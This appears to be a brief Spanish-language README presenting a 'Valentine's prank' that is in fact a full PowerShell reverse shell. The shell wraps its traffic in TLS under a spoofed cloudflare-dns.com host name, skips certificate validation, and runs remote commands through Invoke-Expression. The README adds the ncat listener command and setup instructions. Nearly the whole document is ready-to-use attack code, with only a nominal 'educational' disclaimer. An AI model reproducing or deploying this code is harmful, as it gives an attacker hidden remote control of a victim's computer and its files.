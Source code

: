 # Broma de San Valentin

Este codigo ejecuta un codigo reverse shell, solo con fines educativos
```powershell
$sslProtocols=[System.Security.Authentication.SslProtocols]::Tls12;$TCPClient=New-Object Net.Sockets.TCPClient('IP',PORT);$NetworkStream=$TCPClient.GetStream();
$SslStream=New-Object Net.Security.SslStream($NetworkStream,$false,({$true}-as[Net.Security.RemoteCertificateValidationCallback]));
$SslStream.AuthenticateAsClient('cloudflare-dns.com',$null,$sslProtocols,$false);
if(!$SslStream.IsEncrypted-or!$SslStream.IsSigned){$SslStream.Close();exit};$StreamWriter=New-Object IO.StreamWriter($SslStream);
$StreamReader=New-Object IO.StreamReader($SslStream);function WriteToStream($String){$Hostname=(Get-WmiObject Win32_ComputerSystem).Name;
$Prompt="${env:USERNAME}@${Hostname}:$(Get-Location | Select-Object -ExpandProperty Path)> ";$StreamWriter.Write($String+$Prompt);$StreamWriter.Flush()};
WriteToStream '';while($true){try{$Command=$StreamReader.ReadLine();if($Command-eq"exit"){break};$Output=try{Invoke-Expression $Command 2>&1|Out-String}catch{$_|Out-String};
WriteToStream $Output}catch{break}};$StreamWriter.Close();$SslStream.Close();$TCPClient.Close()
```
El listener

```bash
ncat --ssl -lvp PORT
```

guarda ese arrchivo y cambiale el PATH en el codigo fuente. 



